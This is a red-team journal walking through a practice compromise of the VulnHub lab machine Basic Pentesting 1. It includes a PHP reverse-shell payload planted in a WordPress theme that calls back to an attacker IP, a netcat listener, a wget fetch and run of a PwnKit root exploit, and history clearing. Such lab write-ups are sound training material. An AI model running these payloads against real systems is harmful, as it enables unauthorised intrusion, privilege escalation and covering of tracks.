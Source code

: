 ## Red Team Journal – June 15, 2025

## Target: VulnHub – Basic Pentesting 1  

### Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### Objectives
- Regain WordPress admin access
- Inject PHP reverse shell via theme
- Get reverse shell to Kali
- Upgrade to interactive TTY
- Enumerate for privilege escalation vectors
- Exploit PwnKit to gain root
- Clean up artifacts

---

### Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

	<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

	curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

	nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

	uname -a
	cat /etc/os-release
	ls /home
	sudo -l
	find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

	python3 -m http.server 8000

On Target:

	cd /tmp
	wget http://192.168.56.10:8000/PwnKit -O PwnKit
	chmod +x PwnKit
	./PwnKit

Result:

	root@vtcsec:/tmp# whoami
	root

**Cleanup Actions**

	rm /tmp/PwnKit
	history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

* nmap, gobuster, wpscan
* curl, netcat, wget, python3
* Metasploit (for ProFTPD attempt)
* Static PwnKit binary

**Key Takeaways**

* Always check /wp-login.php and XML-RPC for exposed WordPress logins
* Use encoded curl payloads to bypass broken command injection
* Static precompiled binaries save time vs. build errors (GLIBC mismatch)
* Do not use fg without setting proper terminal (stty raw -echo)
* After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults